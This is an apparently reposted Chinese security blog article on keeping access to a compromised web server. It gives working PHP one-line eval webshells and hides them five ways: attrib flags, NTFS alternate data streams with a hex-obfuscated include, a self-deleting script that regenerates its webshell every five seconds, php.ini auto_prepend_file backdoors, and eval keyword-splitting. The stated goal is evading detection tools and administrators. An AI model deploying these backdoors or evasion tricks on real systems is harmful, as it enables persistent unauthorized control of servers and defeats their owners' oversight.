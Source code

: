 \> 本文由 \[简悦 SimpRead\](http://ksria.com/simpread/) 转码， 原文地址 \[mp.weixin.qq.com\](https://mp.weixin.qq.com/s?\_\_biz=MzI5MDE0MjQ1NQ==&mid=2247493900&idx=1&sn=350e170c7fd3081b549933759a08ddfa&chksm=ec26c894db51418215c58e94583938b33e30e56a316f0d640398e83d8825c3184cfb5bcfba5b&mpshare=1&scene=1&srcid=1014Kph7MXPl7EqIjozOuf7i&sharer\_sharetime=1602632600795&sharer\_shareid=c051b65ce1b8b68c6869c6345bc45da1&key=9d3ca08bb5be9f0434029e4c8c6e9ad253d8490f4f6ccde166ce8eb2c65d0e34991abb27f0898b845e68e73c2b3757b1f496669809214cde65a2d4e3fea712f60bc18b31c5db562d910fa02db90b063b1c5622253f2d7fce2250d931fcd3fbd9d807e5c460d880217781f9b160673130267795a9a59974ceaae525e5f8ae9326&ascene=1&uin=ODk4MDE0MDEy&devicetype=Windows+10+x64&version=6300002f&lang=zh\_CN&exportkey=AW87KQnoVxRNXVr5KPg6RL0%3D&pass\_ticket=5iBkjjQtfbEoCMU4%2BnfhOAJi%2FVJ%2BFty3yCm8kFn8GVUk3mWzBKMJBjfoyOfZ%2B5pr&wx\_header=0)

前言

![](https://mmbiz.qpic.cn/mmbiz_png/Y1aaNGqtFndwmTsLmRXJxyXzCMvUqUE7icjCfABm6d3Qlz4VZj1MWUp3Mt2qLibHfxsBradxFsSn8MYQF2gsHutQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/FRbXFJb3o6Lxh42SFrSDkyPInNLIUXoh6RY2UG7H2uhWzQYvhDbibO5AooILwnEHjrhgF5TvjYPxCHtOAOJr4ww/640?wx_fmt=png)

  

未知攻，焉知防，在红蓝对抗中，我们在拿下一个服务器之后该如何让权限维持的久一些而不被管理员轻易的发现 ，就需要在我们上传的木马动点手脚想办法不被管理员以及检测工具快速的发现。

一. attrib

![](https://mmbiz.qpic.cn/mmbiz_png/Y1aaNGqtFndwmTsLmRXJxyXzCMvUqUE7icjCfABm6d3Qlz4VZj1MWUp3Mt2qLibHfxsBradxFsSn8MYQF2gsHutQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/FRbXFJb3o6Lxh42SFrSDkyPInNLIUXoh6RY2UG7H2uhWzQYvhDbibO5AooILwnEHjrhgF5TvjYPxCHtOAOJr4ww/640?wx_fmt=png)

attrib 用法: attrib + 文件路径 + 参数  

参数说明：

```
+r 设置只读属性
-r   取消只读属性
+a 设置存档属性
-a 取消存档属性
+s 设置系统属性
-s 取消系统属性
+h 设置隐藏属性
-h 取消隐藏属性
/s 显示目录下所有文件的属性
/d 将attrib和任意命令行选项应用到目录
```

利用参数就能够创建隐藏文件：

```
attrib +s +a +r +h
attrib +s +h 文件名
```

这里我用 upload-labs 做了验证，执行完命令后当前目录下的文件即隐藏，即使开启了显示隐藏的文件或是 dir 都是看不见的

![](https://mmbiz.qpic.cn/mmbiz_png/RXib24CCXQ0ibJFxsgNEFLdaKyxPuD6ZQmypVIWBo85gZXLOxEtHc6pTn7Yevdkz3J5aru2VmQUjvfmzLiakKUf9g/640?wx_fmt=png) ![](https://mmbiz.qpic.cn/mmbiz_png/RXib24CCXQ0ibJFxsgNEFLdaKyxPuD6ZQmEUoHJCAibR4Lnq6HnqlXfnwu0OicVsQ9ghAJBb5nzNlQoS7g7cPLlOiag/640?wx_fmt=png)

二. 利用 ADS 隐藏文件

![](https://mmbiz.qpic.cn/mmbiz_png/Y1aaNGqtFndwmTsLmRXJxyXzCMvUqUE7icjCfABm6d3Qlz4VZj1MWUp3Mt2qLibHfxsBradxFsSn8MYQF2gsHutQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/FRbXFJb3o6Lxh42SFrSDkyPInNLIUXoh6RY2UG7H2uhWzQYvhDbibO5AooILwnEHjrhgF5TvjYPxCHtOAOJr4ww/640?wx_fmt=png)

通过在命令行中 echo 一个数据流从而创建一个 ADS 隐藏文件

```
echo ^<?php @eval($\_POST\['pass'\]);?^> > index.php:shell.jpg
```

![](https://mmbiz.qpic.cn/mmbiz_png/RXib24CCXQ0ibJFxsgNEFLdaKyxPuD6ZQmsU0bt01icFZ6p8KpiacbPtAzetldQ27uO0qdcm7myURSbCMJibZz8CXwQ/640?wx_fmt=png)  

我们只能看见一个 index.php 文件，且内容为空，通过命令行输入完整的文件名即可通过 notepad 进行编辑，可以看到我们 echo 进去的一句话木马。

虽然我们已经将文件隐藏了，都是木马并不能够起作用，这里就需要用到文件包含，

可以在当前目录下新建一个 test.php 文件，

```
<?php include(‘index.php:shell.jpg’);?>
```

对木马文件进行包含，不过这样直接进行包含很容易就被查杀了，看了一些资料看见大佬们是利用 PHP 可变变量进行二次转换加上对包含的文件名进行 hex 处理进行绕过的。  

具体的代码：

```
<?php
$a="696E6465782E7068703"." A7368656C6C2E6A7067";
$b="a";
include(PACK('H\*',$$b))
?>
```

三. 不死马

![](https://mmbiz.qpic.cn/mmbiz_png/Y1aaNGqtFndwmTsLmRXJxyXzCMvUqUE7icjCfABm6d3Qlz4VZj1MWUp3Mt2qLibHfxsBradxFsSn8MYQF2gsHutQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/FRbXFJb3o6Lxh42SFrSDkyPInNLIUXoh6RY2UG7H2uhWzQYvhDbibO5AooILwnEHjrhgF5TvjYPxCHtOAOJr4ww/640?wx_fmt=png)

此文件被执行后会自动运行生成 webshell.php

```
<?php
set\_time\_limit(0);
ignore\_user\_abort(1);
unlink(\_\_FILE\_\_);
while(1){
file\_put\_contents('webshell.php','<?php @eval($\_POST\["password"\]);?>');
sleep(5);
}?>
```

在每次删除后的 5 秒钟之后又会重新生成一个新的 webshell.php 文件，若要彻底删除文件最好的方法是将 web 服务停止了再删除。

四. php.ini

![](https://mmbiz.qpic.cn/mmbiz_png/Y1aaNGqtFndwmTsLmRXJxyXzCMvUqUE7icjCfABm6d3Qlz4VZj1MWUp3Mt2qLibHfxsBradxFsSn8MYQF2gsHutQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/FRbXFJb3o6Lxh42SFrSDkyPInNLIUXoh6RY2UG7H2uhWzQYvhDbibO5AooILwnEHjrhgF5TvjYPxCHtOAOJr4ww/640?wx_fmt=png)

1\. 在 php.ini 中找到配置项，修改 auto\_prepend\_file：

```
; Automatically add files before or after any PHP document.
auto\_prepend\_file =webshell.dll
auto\_append\_file =
```

2．修改 include\_path

这里我把后门文件放在了网站目录下，为了隐蔽性可以将文件放在其他位置

```
; Windows: "\\path1;\\path2"
include\_path = ".;C:\\phpstudy\_pro\\WWW\\ini"
```

3\. 在 include\_path 指定的路径上创建 webshell.dll 文件

![](https://mmbiz.qpic.cn/mmbiz_png/RXib24CCXQ0ibJFxsgNEFLdaKyxPuD6ZQmfoxQz3ibF0zfjCb4h0VyU6BBDUyFqZtOo6IFAxnE0jTm4BNTtn0qrlw/640?wx_fmt=png)

之后直接用该 web 站点的任意一个 php 页面连接 webshell

![](https://mmbiz.qpic.cn/mmbiz_png/RXib24CCXQ0ibJFxsgNEFLdaKyxPuD6ZQmfaoRLXcgySzZwnW0wrZ0ia7j2hicU4csPgLGXdbuBUibVZWkutdp4ugAg/640?wx_fmt=png)

五．关键字拆分与文件包含

![](https://mmbiz.qpic.cn/mmbiz_png/Y1aaNGqtFndwmTsLmRXJxyXzCMvUqUE7icjCfABm6d3Qlz4VZj1MWUp3Mt2qLibHfxsBradxFsSn8MYQF2gsHutQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/FRbXFJb3o6Lxh42SFrSDkyPInNLIUXoh6RY2UG7H2uhWzQYvhDbibO5AooILwnEHjrhgF5TvjYPxCHtOAOJr4ww/640?wx_fmt=png)

将

```
@eval($\_POST\[‘test’\]);
```

拆分成

```
$a=$\_POST\[‘test’\];和@eval($a);
```

然后将

```
$a=$\_POST\[‘test’\];
```

写入到一个 php 文件中，再使用文件包含将 $a 的值带入到 test.php 文件中。  

![](https://mmbiz.qpic.cn/mmbiz_png/RXib24CCXQ0ibJFxsgNEFLdaKyxPuD6ZQm6QO1AkPDib1ibyTiaFyJKhxk2fLcHzL5PLIpmXVGfUsdxZtCRhqetSMJA/640?wx_fmt=png)

总结

![](https://mmbiz.qpic.cn/mmbiz_png/Y1aaNGqtFndwmTsLmRXJxyXzCMvUqUE7icjCfABm6d3Qlz4VZj1MWUp3Mt2qLibHfxsBradxFsSn8MYQF2gsHutQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/FRbXFJb3o6Lxh42SFrSDkyPInNLIUXoh6RY2UG7H2uhWzQYvhDbibO5AooILwnEHjrhgF5TvjYPxCHtOAOJr4ww/640?wx_fmt=png)

总结以上方法，其实只要做到不被 D 盾等检测工具自动检测出来，管理员用肉眼不能轻易看出来就够了，隐藏的方法有很多，这里我就只提了五种方法，场景不同方法也各异，如果能很好的融合思路, 构造自己的隐藏 shell 想来亦非难事。